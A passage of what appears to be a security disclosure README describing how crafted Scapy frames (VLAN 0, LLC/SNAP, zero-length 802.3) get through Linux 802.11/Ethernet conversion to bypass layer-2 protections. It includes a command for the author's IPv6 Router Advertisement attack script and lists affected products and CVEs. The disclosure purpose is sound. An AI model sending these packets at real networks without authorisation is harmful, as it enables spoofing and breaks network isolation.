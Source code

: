 If we send the following packet using Scapy on a wireless interface
```
Ether()/Dot1Q(vlan=0,type=len(LLC()/SNAP()/IP()/ICMP()))/LLC(ctrl=3)/SNAP()/IP(dst='192.168.1.2')/ICMP()
```
Linux will actually send
```
Dot11()/LLC(ctrl=3)/SNAP()/Dot1Q(vlan=0,type=len(LLC()/SNAP()/IP()/ICMP()))/LLC(ctrl=3)/SNAP()/IP(dst='192.168.1.2')/ICMP()
```
and when converted from 802.11 to Ethernet II we end up with
```
Ether()/Dot1Q(vlan=0,type=len(LLC()/SNAP()/IP()/ICMP()))/LLC(ctrl=3)/SNAP()/IP(dst='192.168.1.2')/ICMP()
```

To finish, Linux will happily ignore the 802.3 length while converting from 802.3 to 802.11, so
```
Dot3(len=0)/LLC(ctrl=3)/SNAP()/IP(dst='192.168.1.2')/ICMP()
```
becomes a valid packet
```
Dot11()/LLC(ctrl=3)/SNAP()/IP(dst='192.168.1.2')/ICMP()
```

## How to test your network

As there are a lot of possible combinations, I've written a small script that uses Scapy to send many of them: [l2-security-whack-a-mole.py](l2-security-whack-a-mole.py).
Perform the attacks via both wired and wireless interfaces.
An example to send Router Advertisements
```
sudo python3 l2-security-whack-a-mole.py -i eth0 --i-want-to-break-my-network ipv6_ra <IPv6 Link Local addr of eth0> ff02::1
```

## Going deeper

While researching for those L2 attacks, I stumbled upon an awesome research from 2013 injecting specially crafted packets at L1 to confuse some switches and NICs:
[Fully arbitrary 802.3 packet injection Maximizing the Ethernet attack surface](http://dev.inversepath.com/download/802.3/whitepaper.txt)

## Impacted software / hardware

- Microsoft Hyper-V / OpenStack / LXD: [See previous write up](../VLAN0/README.md#tested-software)
- Microsoft Hyper-V: [CVE-2021-28444](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-28444) / [CVE-2022-21905](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-21905)
- Cisco CBS350-8T-E-2G
- See list in [CERT/CC vulnerability note VU#855201](https://kb.cert.org/vuls/id/855201)

## Timeline
